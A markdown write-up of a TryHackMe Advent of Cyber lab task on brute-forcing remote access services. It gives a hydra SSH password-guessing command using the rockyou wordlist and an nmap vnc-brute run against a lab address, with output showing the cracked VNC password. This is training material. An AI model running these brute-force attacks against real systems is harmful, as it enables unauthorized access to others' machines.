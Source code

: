 # Task 10 [Day 5] Brute-Forcing He knows when you're awake 
- video: https://www.youtube.com/watch?v=oqXG82ESTWw

## Remote Access Services
- Remote administration : SSH , RDP, VNC


## Attacking Passwords
- Shouder Surfing
- Password Guessing
- Dictionary Attack
- Brute Force Attack

## Hacking an Authentication Service
- Example `hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.74.48 ssh`


## Solution

### Brute pass 
- Bruteforcing password with `nmap vnc-brute script`
```bash
root@ip-10-10-111-252:~# nmap --script vnc-brute 10.10.69.18 -v -p5900

Starting Nmap 7.60 ( https://nmap.org ) at 2022-12-06 17:16 GMT
NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 17:16
Completed NSE at 17:16, 0.00s elapsed
Initiating ARP Ping Scan at 17:16
Scanning 10.10.69.18 [1 port]
Completed ARP Ping Scan at 17:16, 0.22s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:16
Completed Parallel DNS resolution of 1 host. at 17:16, 0.00s elapsed
Initiating SYN Stealth Scan at 17:16
Scanning ip-10-10-69-18.eu-west-1.compute.internal (10.10.69.18) [1 port]
Discovered open port 5900/tcp on 10.10.69.18
Completed SYN Stealth Scan at 17:16, 0.21s elapsed (1 total ports)
NSE: Script scanning 10.10.69.18.
Initiating NSE at 17:16
NSE Timing: About 4.76% done; ETC: 17:49 (0:31:40 remaining)
Completed NSE at 17:17, 96.16s elapsed
Nmap scan report for ip-10-10-69-18.eu-west-1.compute.internal (10.10.69.18)
Host is up (0.00037s latency).

PORT     STATE SERVICE
5900/tcp open  vnc
| vnc-brute: 
|   Accounts: 
|     1q2w3e4r - Valid credentials
|_  Statistics: Performed 951 guesses in 96 seconds, average tps: 9.7
MAC Address: 02:BD:D5:0C:1A:25 (Unknown)

NSE: Script Post-scanning.
Initiating NSE at 17:17
Completed NSE at 17:17, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 96.90 seconds
           Raw packets sent: 3 (116B) | Rcvd: 3 (116B)

```

### Connect to vnc 
- Rommina, pass: `1q2w3e4r`

## References & Future
- Rooms
	- https://tryhackme.com/room/protocolsandservers2
	- https://tryhackme.com/room/hydra
	- https://tryhackme.com/room/passwordattacks
	- https://tryhackme.com/room/johntheripper0
	- 
